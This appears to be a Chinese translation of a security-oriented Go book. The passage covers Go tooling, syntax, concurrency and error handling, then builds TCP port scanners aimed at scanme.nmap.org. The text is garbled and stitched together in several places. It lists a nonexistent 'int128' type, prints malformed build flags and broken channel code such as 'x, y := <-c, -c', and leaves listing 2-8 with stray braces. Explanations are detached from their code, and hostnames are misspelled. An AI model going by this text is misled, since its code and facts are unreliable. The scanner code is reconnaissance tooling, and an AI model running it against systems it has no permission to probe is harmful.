

`VS Code` 支持用于主题、版本控制、补全、调试、检查和格式化的多样化扩展。你可以通过 `vscode-go` 插件（`https://github.com/Microsoft/vscode-go/`）获取 `Go` 集成。

## JetBrains GoLand

`JetBrains` 的开发工具集高效且功能丰富，使得专业开发和爱好者项目都能轻松实现。图 1-4 显示了 `JetBrains` `GoLand` `IDE` 的外观。

`GoLand` 是 `JetBrains` 专为 `Go` 语言设计的商业 `IDE`。`GoLand` 的价格从学生免费到 199 美元不等。`GoLand` 提供了强大的功能，包括调试、代码补全、版本控制、检查、格式化等。



图 1-4：`GoLand` `IDE`

## 使用常用的 Go 工具命令

`Go` 自带了一些实用的命令，可以简化开发过程。让我们来看看这些命令。

### go run 命令

在常用的命令中，`go run` 会编译并执行 `main` 包——你的程序的入口点。

作为一个示例，将以下代码保存为 `GOPATH/src` 下的 `main.go`：

```go
package main
import (
    "fmt"
)
func main() {
    fmt.Println("Hello, Gophers!")
}
```

在文件所在目录下执行 `go run`。你应该会在屏幕上看到 `Hello, Gophers!`

### go build 命令

注意 `go run` 执行了你的文件，但没有生成二进制文件。这就是 `go build` 大显身场。`go build` 会编译你的应用程序（包括任何包），但不执行它。它会在磁盘上创建一个二进制文件。生成的文件遵循合理的命名约定，但可以使用 `-o` 输出选项更改创建的二进制文件的名称。

将之前示例中的 `main.go` 重命名为 `hello.go`。在终端窗口中执行 `go build hello.go`。如果一切顺利，该命令将创建一个名为 `hello` 的执行文件。现在输入此命令：

```
$ ./hello
Hello, Gophers!
```

这应该运行该二进制文件。默认情况下，生成的二进制文件包含调试信息和符号表。这会增大文件体积。为了减小文件大小，可以在构建过程中包含额外的标志从二进制文件中删除这些信息。例如，以下命令可以将二进制文件缩小约 30%：

```
$ go build -ldflags "w -s"
```

拥有更小的二进制文件会让你在进行某些传输或嵌入时更加高效。

### 交叉编译（Cross-Compiling）

使用 `go build` 适用于在你当前系统或架构相同的系统上运行二进制文件，但如果你想创建一个可以在不同架构上运行的二进制文件呢？这就是交叉编译大显身场。交叉编译是 `Go` 最酷的特性之一，因为没有其他语言可以轻松实现。`build` 命令允许你为多个操作系统和架构交叉编译你的程序。请参考官方 `Go` 文档 `https://golang.org/doc/install/source#environment/` 了解更多关于兼容的操作系统和架构编译类型的详细信息。


要进行交叉编译，你需要设置一个约束。这只是为了向构建命令传递有关你想要编译代码的操作系统和架构的信息。这些约束包括 `GOOS`（用于操作系统）和 `GOARCH`（用于架构）。

你可以通过三种方式引入构建约束：通过命令行、代码注释或文件后缀命名约定。我们在这里将讨论命令行方法，并将另外两种方法留给你，感兴趣时自行研究。

假设你想在 macOS 系统上交叉编译位于该系统中的 `hello.go` 程序，使其能够在 Linux 64 位架构上运行。你可以通过在运行构建命令时在命令行中设置 `GOOS` 和 `GOARCH` 约束来实现这一目标：

```
$ GOOS="linux" GOARCH="amd64" go build hello.go
$ ls
hello hello.go
$ file hello
hello: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
```

输出确认了生成的二进制文件是 64 位的 ELF (Linux)。

在 Go 中，交叉编译的过程比任何其他现代编程语言语言都要简单得多。唯一真正的“坑”发生在你尝试交叉编译使用原生 C 绑定的应用程序时。我们不会深入这些细节，让你独立去钻研这些挑战。取决于你导入的包和开发的项目，你可能并不需要经常担心这个问题。

# go doc 命令

`go doc` 命令允许你查询有关包、函数、方法或变量的文档。这些文档作为注释嵌入到你的代码中。让我们来看看如何获取关于 `fmt.Println()` 函数的详细信息：

### $ go doc fmt.Println

```
func Println(a ...interface{}) (n int, err error)
Println 返回其操作数的默认格式并将其写入标准输出。在操作数之间始终会添加空格，并在末尾附加换行符。
```

> `go doc` 产生的输出直接取自源文件注释。只要你对你的包、函数、方法和变量进行了充分的注释，你就能通过 `go doc` 命令自动检查文档。

# go get 命令

你在书中将开发的许多 Go 程序将需要第三方包。要获取包的源代码，请使用 `go get` 命令。例如，假设你已经编写了以下代码并导入了 `stacktitan/ldapauth`：

```
package main

import (
"fmt"
"net/http"

"github.com/stacktitan/ldapauth"
)
```

即使你导入了 `stacktitan/ldapauth` 包，你还无法访问该包。你必须先运行 `get` 命令。使用 `go get github.com/stacktitan/ldapauth` 会下载实际的包并放置在 `$GOPATH/src` 目录下。

下面的目录树说明了 `ldapauth` 包在你的 `GOPATH` 工作区中的位置：

```
$ tree src/github.com/stacktitan/
src/github.com/stacktitan/
  ldapauth
    LICENSE
    README.md
    ldap_auth.go
```

注意，路径和导入的包名通过构建方式避免了给多个包分配相同的名称。使用 `github.com/stacktitan` 作为实际包名 `ldapauth` 的前缀，可以确保包名保持唯一性。

尽管 Go 开发者传统上使用 `go get` 安装依赖项，但如果这些依赖包收到了破坏向后兼容性的更新，就会出现问题。Go 引入了两个独立的工具——`dep` 和 `mod` 来锁定依赖项，以防止向后兼容性问题。然而，本书几乎完全使用 `go` 来拉取依赖项。这将有助于避免与正在进行的依赖管理工具不一致，并希望让你更容易让示例运行起来。

# go fmt 命令

`go fmt` 命令会自动格式化你的源代码。例如，运行 `go fmt /path/to/` 会自动格式化你的源代码。虽然某些偏好起初看起来很奇怪，但随着时间的推移，你会发现遵循这些有助于代码的换行、缩进和对齐。大多数 IDE 都会在你保存时自动运行 `go fmt`，因此你可能不需要显式运行。

# golint 和 vet 命令

虽然 `go fmt` 会格式化代码，但 `golint` 会报告错误。`go vet` 会尝试检查代码中的可疑问题。尽管你导入了 `stacktitan/ldapauth` 包，你还无法访问

# Go Playground

Go Playground 是一个托管在 `https://play.golang.org/` 的在线执行环境，允许你无需安装即可快速开发、测试和分享代码片段。它还允许你尝试语言的各种特性。

# 其他其他工具

虽然我们不会显式讨论其他工具和命令，但我们鼓励你进行研究。例如你可能会使用 `go test` 运行单元测试和基准测试，`cover` 检查覆盖率，`imports` 处理导入语句。

# 理解 Go 语法

详述整个 Go 语言需要多个章节，甚至一整本书。本节提供了 Go 语法的概述，特别是关于数据类型、控制结构和常见模式。这对于熟悉的 Go 程序员来说是一个复习，对于新手来说是一个介绍。

对于深入、渐进式的语言学习，我们建议你完成 [A Tour of Go](https://tour.golang.org/)get。这是一个全面的交互式教程，通过嵌入式练习让你尝试每个概念。

语言本身是更干净的 C 版本，去除了许多底层细微差别，具有更好的可读性更容易上手。

## 数据类型

与大多数现代编程语言一样，Go 提供了多种原始和复杂数据类型。原始类型由你在其他语言中熟悉的基础区块组成（如字符串、数字和布尔值）。原始类型是程序使用的信息的基础。复杂数据类型是由一个或多个原始或复杂类型组成的自定义结构。

### 原始数据类型

原始类型包括 `bool`, `string`, `int`, `int8`, `int16`, `int32`, `int64`, `uint`, `uint8`, `uint16`, `uint32`, `uint64`, `uintptr`, `byte`, `rune`, `float32`, `float64`, `complex64` 和 `int128`。

你通常会在定义变量时声明其类型。如果你没有，系统会自动推断变量的数据类型。考虑以下示例：

```
var x = "Hello World"
z := int(42)
```

在第一个示例中，你使用 `var` 关键字定义了一个名为 `x` 的变量并赋值为 "Hello World"。Go 隐式推断出 `x` 是字符串，因此你不需要声明该类型。在第二个示例中，你使用 `:=` 运算符来

定义一个名为 `z` 的新变量并为其赋值一个整数值 `42`。这两个运算符之间实际上没有区别。我们将在本书中都会使用这两个运算符，但有些人人认为 `:=` 运算符是一个丑陋的符号，会降低可读性。

选择你认为最合适的方式即可。

在上一个示例中，你显式地将 `42` 值封装在 `int` 调用中，以强制对其指定类型。你可以省略 `int` 调用，但必须接受系统自动为该值使用的任何类型。在某些情况下，这可能不是你想要使用的类型。例如，你可能希望 `42` 表示为一个无符号整数，而不是 `int` 类型，在这种情况下，你就必须显式地封装该值。

### 切片与映射 (Slices and Maps)

Go 还有更复杂的数据类型，例如切片（slices）和映射（maps）。切片类似于数组，但你可以动态调整其大小并更高效地将其传递给函数。映射是关联数组，是键/值对的无序列表，允许你通过唯一键高效快速地查找值。

定义、初始化和使用切片与映射的方法有很多种。以下示例演示了定义切片 `s` 和映射 `m` 的一种常用方法，并向它们添加元素：

```
var s = make([]string, 0)
var m = make(map[string]string)
s = append(s, "some string")
m["some key"] = "some value"
```

这段代码使用了两个内置函数：`make()` 用于初始化每个变量，`append()` 用于向切片添加新项。最后一行向映射 `m` 添加了键 `some key` 和值 `some value` 的键值对。我们建议你阅读 Go 官方文档以探索定义和使用这些数据类型的所有方法。

### 指针、结构体与接口 (Pointers, Structs, and Interfaces)

指针指向内存中的特定区域，并允许你检索存储的值。就像你在 C 语言中所做一样，你使用 `&` 运算符获取某些变量的内存地址，并使用 `*` 运算符对地址解引用。以下示例说明了这一点：

```
var count = int(42)
ptr := &count
fmt.Println(ptr)
*ptr = 100
fmt.Println(count)
```

这段代码定义了一个整数 `count`，然后通过 `&` 运算符创建一个指针。这返回了 `count` 变量的地址。我们在声明变量的同时调用 `fmt.Println` 将 `count` 的值输出到标准输出。然后你使用 `*` 运算符为 `ptr` 指向的内存位置分配一个新值。由于这是 `count` 变量的地址，赋值操作改变了变量的值，你通过将其打印到屏幕上确认了这一点。

你使用 `struct` 类型通过指定类型关联的字段和方法来定义新的数据类型。例如，以下代码定义了一个 `Person` 类型：

```go
type Person struct {
  Name string
  Age int
}
func (p *Person) SayHello() {
  fmt.Println("Hello,", p.Name)
}
func main() {
  var guy = new(Person)
  guy.Name = "Dave"
  guy.SayHello()
}
```

代码使用 `type` 关键字定义了一个包含两个字段的新结构体：一个名为 `Name` 的字符串和一个名为 `Age` 的 `int` 整数。

你在赋值给变量 `p` 的 `Person` 类型上定义了一个方法 `SayHello()`。该方法通过查看接收调用的结构体 `p` 向标准输出打印问候消息。将 `p` 视为其他语言中 `self` 或 `this` 的引用。你还定义了一个函数 `main()`，它作为程序的入口。该函数使用 `new` 关键字初始化了一个新的 `Person`。它将名字 "Dave" 分配给该人员，然后让这个人执行 `SayHello()`。

结构体缺乏作用域修饰符——例如私有 `private`、公共 `public` 或保护 `protected`——这些修符在其他语言中常用于控制对其成员的访问。相反，Go 使用大小写字母来确定作用域：以大写字母开头的类型和字段是导出的，可以在包外部访问；而以小写字母开头的是私有的，仅在包内部访问。

你可以将 Go 的接口（`interface`）类型视为一个蓝图或合同。这个蓝图定义了任何具体实现必须满足的预期操作set，以便视为该接口的类型。要定义接口，你需要定义一组方法；任何包含具有正确签名的方法的数据类型都符合该合同，并被视为该接口的类型。让我们来看一个示例：

```go
type Friend interface {
  SayHello()
}
```

在这个示例中，你定义了一个名为 `Friend` 的接口，它要求实现一个方法：`SayHello()`。这意味着任何实现了 `SayHello()` 方法的数据类型都是 `Friend`。请注意，`Friend` 接口本身并没有实现该方法——它只是说如果你是一个 `Friend`，你就能够执行 `SayHello()`。

以下函数 `Greet()` 接收 `Friend` 接口作为输入，并以 `Friend` 特有的方式招呼：

```go
func Greet(f Friend) {
  f.SayHello()
}
```

你可以将任何 `Friend` 类型传递给该函数。幸运的是，上一个示例中使用的 `Person` 类型可以 `SayHello()`——它是一个 `Friend`。因此，如果一个名为 `Greet()` 的函数接收 `Friend` 接口作为输入并以 `Friend` 特有的方式招呼……（此处省略原文重复的错误描述）。

### 控制结构 (Control Structures)

Go 包含的控制结构比其他语言少。尽管如此，你仍然可以使用以下方式完成复杂的处理，包括条件和循环：

Go 主要条件判断是 `if/else`：

```go
if x == 1 {
	fmt.Println("X is equal to 1")
} else {
    fmt.Println("X is not equal to 1")
}
```

Go 的语法与其他语言略有。例如，你不需要将条件检查（在本例中为 `x == 1`）放在括号内。你必须用括号包裹所有的块，即使是单行块。

对于涉及两个以上选择的条件，Go 提供了 `switch` 语句。以下是一个示例：

```go
switch x {
    case foo:
        fmt.Println("Found foo")
    case bar:
        fmt.Println("Found bar")
    default:
        fmt.Println("Default case")
}
```

在这个示例中，`switch` 语句将变量 `x` 的内容与各种值（`foo` 和 `bar`）进行比较，如果 `x` 匹配其中，则打印消息。注意，与许多语言不同，你的 `case` 不需要包含 `break` 语句。在其他语言中，执行通常会继续通过每个 `case` 直到遇到 `break` 语句或 `switch` 结束。Go 只执行一个匹配或默认情况。

Go 还包含一种 `switch` 的特殊变体，称为类型切换，它通过使用 `switch` 执行类型断言。类型切换用于尝试理解接口的底层类型。例如，你可能会使用类型切换来获取名为 `i` 的接口的底层类型：

```go
func foo(i interface{}) {
	switch v :=i.(type) {
	case int:
		fmt.Println("Tm an integer")
	case string:
		fmt.Println("Tm a string!")
	default:
		fmt.Println("Unknown type!")
	}
}
```

这段代码循环遍历 0 到 9 的数字，并将每个数字打印到 `stdout`。注意第一行中的分号。与其他许多使用分号作为行分隔符的语言不同，Go 将分号用于各种控制结构，以便在单行代码中执行多个独立但相关的子任务。第一行使用分号来分隔初始化逻辑（`i := 0`）、条件表达式（`i < 10`）和后语句（`++`）。这种结构对于任何编写过任何现代语言的人来说应该非常非常熟悉，因为它紧密遵循了这些语言的约定。

下面的示例展示了 `for` 循环的一种轻微变体，用于遍历集合（例如切片或 map）：

```
nums := []int{2,4,6,8}
for idx, val := range nums {
    fmt.Println(idx, val)
}
```

在这个示例中，你初始化了一个名为 `nums` 的整数切片。然后你在 `for` 循环中使用 `range` 关键字来遍历该切片。`range` 关键字返回两个值：当前索引和该索引处当前值的拷贝。如果你不想使用索引，可以将 `for` 循环中的 `idx` 替换为下划线 `_`，告诉 Go 你不需要它。

你也可以对 map 使用这种完全相同的循环逻辑来返回每个键/值对。

# 并发

与已经审查过的控制结构类似，Go 的并发模型比其他语言要简单得多。要并发执行代码，你可以使用 `goroutine`，它们是可以通同时运行的函数或方法。这些通常被描述为轻量级线程，因为与实际线程相比，创建它们的成本极小的。

要创建一个 `goroutine`，在想要并发运行的方法或函数调用之前使用 `go` 关键字：

```
func f() {
    fmt.Println("f function")
}

func main() {
    go f()
    time.Sleep(1 * time.Second)
    fmt.Println("main function")
}
```

在这个示例中，你定义了一个函数 `f()` ①，并在你的 `main()` 函数（程序的入口点）中调用了它。你在调用之前前加了关键字 `go` ②，这意味着程序将运行函数 `f()` 并继续执行，而无需等待 `f()` 完成。你使用 `time.Sleep(1 * time.Second)` 来强制 `main()` 函数临时暂停，以便 `f()` 可以完成。如果你没有使用 `main()` 函数，程序可能会在函数 `f()` 完成之前退出，你将永远看不到它的结果显示在 `stdout` 中。如果处理正确，你将看到打印到 `stdout` 的消息，表示你已执行完 `f()` 和 `main()` 函数。

Go 包含一种名为通道（channels）的数据类型，它提供了一种机制，`goroutine`可以通过该机制同步它们的执行并相互通信。让我们来看一个使用通道同时显示不同字符串长度及其和的示例：

```
func strlen(s string, c chan int) {
  c <- len(s)
}

func main() {
  c := make(chan int)
  go strlen("Salutations", c)
  go strlen("World", c)
  x, y := <-c, -c
  fmt.Println(x, y, x+y)
}
```

首先，你定义并使用了一个类型为 `chan int` 的变量 `c`。你可以根据打算通过通道传递的数据类型定义各种类型的通道。在这种情况下，你将在各种字符串的长度作为整数值在 `goroutine` 之间传递，因此你应该使用 `int` 通道。


注意一个新运算符：`<-`。此运算符指示数据是流向通道还是离开通道。你可以将其等同于将物品放入桶中或从桶中取出物品。

你定义的函数 `strlen()` 接受一个字符串形式的单词，以及一个用于同步数据的通道。该函数包含单条语句 `c <- len(s)`，它使用了内置函数。

# 处理

与大多数现代编程语言不同，Go 不包含 `try/catch/finally` 错误处理语法。相反，它采用了一种极简的方法，鼓励你在错误发生的地方检查错误，而不是让“泡”到其他函数。

Go 定义了一个内置的 `error` 类型，具有以下接口：

```go
type error interface {
    Error() string
}
```

Go 中处理错误的常见方法将其作为函数的最后一个返回值返回。调用者随后检查错误是否非空。例如：

```go
func divide(a, b int) (int, error) {
    if b == 0 {
        return 0, errors.New("cannot divide by zero")
    }
    return a / b, nil
}

func main() {
    result, err := divide(10, 0)
    if err != nil {
        fmt.Println("Error:", err)
        return
    }
    fmt.Println("Result:", result)
}
```

有时开发者会定义自定义错误类型以提供更多上下文。这是通过创建一个结构体并实现 `Error()` 方法来实现：

```go
type MyError struct {
    Code    int
    Message string
}

func (e *MyError) Error() string {
    return fmt.Sprintf("Error %d: %s", e.Code, e.Message)
}
```

当你遇到错误时，可以使用类型断言来访问自定义错误的特定字段：

```go
if myErr, ok := err.(*MyError); ok {
    fmt.Println("Custom error code:", myErr.Code)
}
```

另一种方法是使用 `errors.Errorf`，允许你用额外的上下文包装现有错误：

```go
if err != nil {
    return fmt.Errorf("failed to process data: %w", err)
}
```

通过遵循这些模式，你可以在 Go 中编写健壮且符合习惯的错误处理代码。

```go
Baz string xml:"parent>child"
}
```

包裹在反引号中并位于结构体字段后的字符串值是字段标签（field tags）。字段标签始终以标签名称（在此例中为 `xml`）开始，随后是一个冒号和由双引号括的指令。该指令定义了如何处理这些字段。在这种情况下，你提供的指令声明 `Bar` 应该被视为一个名为 `id` 的属性，而不是元素，并且 `Baz` 应该位于 `parent` 下名为 `child` 的子元素中。如果你修改 JSON 示例现在将结构编码为 XML，你将看到如下内容：

```xml
<Foo id="Joe Junior"><parent><child>Hello Shabado</child></parent></Foo>
```

XML 编码器通过标签指令递归地确定元素的名称，因此每个字段都会根据你的需求进行处理。

在整本书中，你将看到这些字段标签用于处理其他数据序列化格式，包括 `ASN.1` 和 `MessagePack`。我们还将讨论一些定义自定义标签的示例示例，特别是在你学习如何处理服务器消息块（`SMB`）协议时。

## 总结

在本章中，你搭建了 Go 环境，并学习了 Go 语言的基础方面。这并不是 Go 所有特征的详尽列表；这门语言过于细致且庞大，以至于我们无法将其挤进一个章节。相反，我们包含了在后续章节中最有帮助的方面。现在，我们将注意力转向该语言在安全从业人员和黑客中的实际应用上。我们开始吧！

# 2

## TCP、扫描器与代理


让我们从传输控制协议（`TCP`）开始 Go 的实际应用，`TCP` 是面向连接的、可靠通信的主流标准，也是现代网络的基础。`TCP` 无处不在，它拥有有文档记录完备的库、代码示例以及通常易于理解的封包流。你必须理解 `TCP` 才能完全地评估、分析、查询和操作网络流量。

作为攻击者，你应该理解 `TCP` 的工作原理，并能够开发可用的 `TCP` 构造，以便你能够识别开放/关闭端口，识别可能的错误结果（例如误报——例如 `SYN` 洪攻击防护），并通过端口转发绕过出口限制。在本章中，你将学习 Go 中的基础 `TCP` 通信；构建一个并发的、适当节流的端口扫描器；创建一个可用于端口转发的 `TCP` 代理；并重现 `Netcat` 的“巨大的安全漏洞”功能。

已有整本教科书专门讨论 `TCP` 的每一个细微差别，包括数据包结构和流程、可靠性、通信重组等。这种程度的细节超出了本书的范围。要需更多细节，你应该阅读 Charles M. Kozierok 编写的 `The TCP/IP Guide》`（No Starch Press, 2005）。

## 理解 TCP 握手

对于需要复习的人，让我们回顾一下基础。图 2-1 显示了 `TCP` 在查询端口时如何使用握手过程来确定端口是开放、关闭还是过滤的。







图 2-1：`TCP` 握手基础

如果端口是开放的，将发生三次握手。

首先，客户端发送一个 `SYN` 包，标志着通信的开始。服务器随后响应 `SYN-ACK`，或对 `SYN` 包的确认。

```go
for i:=1; i <= 1024; i++ {
}
```

现在你有一个整数（`int`），你需要一个字符串作为 `Dial(network, address string)` 的第二个参数。至少有两种方法可以将整数转换为字符串。一种方法是使用字符串转换包 `strconv`。另一种方法是使用 `fmt` 包中的 `Sprintf(format string, a ...interface{})`，它（类似于其 C 语言的兄弟版本）返回一个由格式化字符串生成的字符串。

创建一个新文件并填入列表 2-2 中的代码，确保你的循环和字符串生成都能正常工作。运行这段代码应该打印出 1024 行，但不必特意去数它们。

```go
package main

import (
	"fmt"
)

func main() {
	for i :=1; i <= 1024; i++ {
	address := fmt.Sprintf("scanme.nmap.org:%d", i)
	fmt.Println(address)
	}
}
```

> 列表 2-2: 扫描 `scanme.nmap.org` 的 1024 个端口 (`/ch-2/tcp-scanner-slow/main.go`)

剩下的就是将上一个代码示例中的 `address` 变量插入 `Dial(network, address string)`，并实现上一节中相同的错误检查来测试端口的可用性。你还应该添加一些逻辑，在连接成功时关闭连接；这样连接就不会一直保持开启状态。完成连接是一种礼貌。要做到这一点，你将在 `Conn` 上调用 `Close()`。列表 2-3 显示了完成后的端口扫描器。

```go
package main

import (
	"fmt"
	"net"
)

func main() {
	for i := 1; i <= 1024; i++ {
		address := fmt.Sprintf("scan.org:%d", i)
		conn, err := net.Dial("tcp", address)
		if err != nil {
			// 端口关闭或被过滤。
				continue
		}
		conn.Close()
		fmt.Printf("%d open\n", i)
	}
}
```

列表 2-3: 完成后的端口扫描器 (`/ch-2/tcp-scanner-slow/main.go`)

编译并执行此代码对目标进行轻量级扫描。你应该看到几个开放的端口。

## 执行并发扫描

之前的扫描器是一次性扫描多个端口（这里玩了双关语）。但你的目标是并发地扫描多个端口，这将让你的端口扫描器更快。要实现这一点，你将利用 goroutine（协程）的力量。Go 允许你创建系统能够处理的任意数量 goroutine，仅限于可用内存。

## “太快了”扫描器版本

创建一个并发运行的端口扫描器，最简单的方法是将对 `Dial(network, address string)` 的调用封装在一个 goroutine 中。为了从自然结果中学习，请创建一个名为 `scan-to-fast.go` 的新文件，填入列表 2-4 中的代码并执行它。

```go
package main

import (
    "fmt"
    "net"
)

func main() {
    for i := 1; i <= 1024; i++ {
        go func(j int) {
            address := fmt.Sprintf("scanme.map.org:%d", j)
            conn, err := net.Dial("tcp", address)
            if err != nil {
                return
            }
            conn.Close()
            fmt.Printf("%d open\n", j)
        }(i)
    }
}
```

> `列表 2-4:` 一个运行太快的扫描器 (`/ch-2/tcp-scanner-to-fast/main.go`)

运行此代码后，你应该会观察到程序立即退出：

```bash
$ time ./tcp-scanner-to-fast
./tcp-scanner-to-fast 0.00s 0.00s 90% cpu 0.004 total
```

你刚刚运行的代码为每个连接启动了一个单独 goroutine，而主 goroutine 并不知道等待连接的发生。因此，代码在 `for` 循环完成迭代后就会完成并退出，这可能比你的代码与目标端口之间的网络包交换要快。对于数据包仍在传输中的端口，你可能无法获得准确的结果。

有几种方法可以修复。一种是使用 `sync` 包中的 `WaitGroup`，这是一种控制并发的线程方法。`WaitGroup` 是一个结构体类型，可以这样创建：

```go
var wg sync.WaitGroup
```

一旦创建了 `WaitGroup`，你就可以调用该结构体上的几个方法。第一个是 `Add(int)`，它根据提供的数值增加内部计数器。接下来，`Done()` 将计数器减 1。最后，`Wait()` 会阻塞调用它的 goroutine 的执行，在内部计数器达到零之前不会允许继续执行。你可以组合这些调用，以确保主 goroutine 等待所有连接完成。

## 使用 WaitGroup 进行同步扫描

列表 2-5 显示了具有不同 goroutine 实现的相同端口扫描程序。

```go
package main

import (
    "fmt"
    "net"
    "sync"
)
func main() {
	var wg sync.WaitGroup
for i := 1; i <= 1024; i++ {
	wg.Add(1)
	go func(j int) {
		defer wg.Done()
	address := fmt.Sprintf("scanme.nmap.org:%d", j)
	conn, err := net.Dial("tcp", address)
	if err != nil {
		return
	}
	conn.Close()
	fmt.Printf("%d open\n", j)
	}(i)
}
	wg.Wait()
}
```

列表 2-5: 使用 `WaitGroup` 的同步扫描器 (`/ch-2/tcp-scanner-wg-to-fast/main.go`)

接收到的结果数量相同，你的程序就可以知道何时关闭通道并随后关闭工作线程。

这种修改在列表 2-8 中演示，该代码完成了端口扫描器。

```go
package main

import (
    "fmt"
    "net"
    "sort"
)

func worker(ports, results chan int) {
    for p := range ports {
        address := fmt.Sprintf("scanme.nmap.org:%d", p)
        conn, err := net.Dial("tcp", address)
        if err != nil {
            continue
        }
        if results < 0 {
            continue
        }
        conn.Close()
        results <- p
    }
}

func main() {
    ports := make(chan int, 100)
    results := make(chan int)
    var openports []int
    for i := 0; i < cap(ports); i++ {
        go worker(ports, results)
    }
}

go func() {
    for i := 1; i <= 1024; i++ {
        ports <- i
    }
}
```

```go
for i := 0; i < 1024; i++ {
  port := <-results
  if port != 0 {
    openports = append(openports, port)
  }
}

close(ports)
close(results)
sort.Ints(openports)
for _, port := range openports {
  fmt.Printf("%d\n", port)
}
```

Listing 2-8: 使用多个通道进行端口扫描 (`/ch-2/tcp-scanner-final/main.go`)

`worker(ports, results chan int)` 函数已被修改为接受两个通道 ①；其余逻辑大部分相同，区别在于如果端口是关闭的，你会发送一个零 ②；如果它是开启的，你将发送端口号 ③。此外，你创建了一个独立的通道来将结果从工作线程通信到主线程 ④。你使用一个切片 ⑤ 来存储结果，以便稍后排序。接下来，你需要在单独的 goroutine ⑥ 向工作线程发送数据，因为结果收集循环需要在继续处理超过 100 个任务之前启动。

结果收集循环 ⑦ 在 `results` 通道上接收 1024 次。如果端口不等于0，则将其添加到切片中。关闭通道后，你将使用 `sort` ⑧ 对开启端口切片进行排序。剩下的工作就是遍历切片并将开启端口打印到屏幕上。

这就是全部：一个非常高效的端口扫描器。花些时间玩玩代码——特别是工作线程的数量。数量越高，你的程序执行得就越快。但如果你添加了过多的工作线程，结果可能会变得不可靠。当你为他人编写工具时，你会希望使用一个兼顾可靠性和速度的健康默认值。然而，你也应该允许用户提供工作线程的数量作为选项。

